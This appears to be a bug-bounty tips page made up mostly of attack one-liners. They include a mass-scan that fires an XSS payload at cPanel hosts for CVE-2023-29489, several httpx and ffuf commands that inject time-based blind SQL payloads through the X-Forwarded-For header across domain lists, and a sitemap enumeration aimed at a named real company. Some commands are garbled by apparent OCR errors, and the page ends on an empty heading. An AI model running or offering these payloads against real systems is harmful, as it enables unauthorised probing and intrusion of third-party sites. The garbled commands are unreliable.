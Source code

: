 by @Ahmed M Hassan

<br><br>

---

## 𝙘𝙋𝙖𝙣𝙚𝙡 CVE-2023-29489 𝙓𝙎𝙎 𝙊𝙣𝙚-𝙇𝙞𝙣𝙚𝙧

`subfinder -d example.com -silent -all | httpx -silent -ports http:80,https:443,2082,2083 -path '/cpanelwebcall/<img%20src=x%20onerror="prompt(document.domain)">aaaaaaaaaaaaaaa' -mc 400`

Follow [Cybertix](https://cybertix.in/?__cf_chl_tk=1KWgKjkI6OiHA2dcNMwVfx.YDxTfAjkr1p0i4Qii7Mo-1683559897-0-gaNycGzNCtA) for Bug Bounty Tips & Tricks 💲💲

<br><br>

---

## Find Header-Based Blind SQL Injection 💉
<br>

**httpx**

`cat domain.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(13),0))OR" -rt -timeout 20 -mrt '>13'`

**ffuf**

`ffuf -w domains.txt -u FUZZ -H "X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z`

To avoid false positive, I use this command:

`ffuf -w domains.txt -u FUZZ -H "X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z" -c 200 -o json --timeout 6`

For wordlist and multiple Headers:

`ffuf -w headers.txt -u <target> -H "User-Agent: FUZZ" -c 200 -o json`

Credit:- [Ibrahim H.](https://www.linkedin.com/in/ACoAABoMQ5EBdbSWu5zfUwRiXDgS-aoqpyIpI3k/) 

<br><br>

---

<br><br>

## Find sitemap. xml endpoint

`subfinder -d openai.com -silent -all I httpx -silent -path "/sitemap. xml? offset=1" -mc 200 - follow-redirects`

@ReconOne

<br><br>

---

## Poseidon Web Scanner Vulnerability 1.0
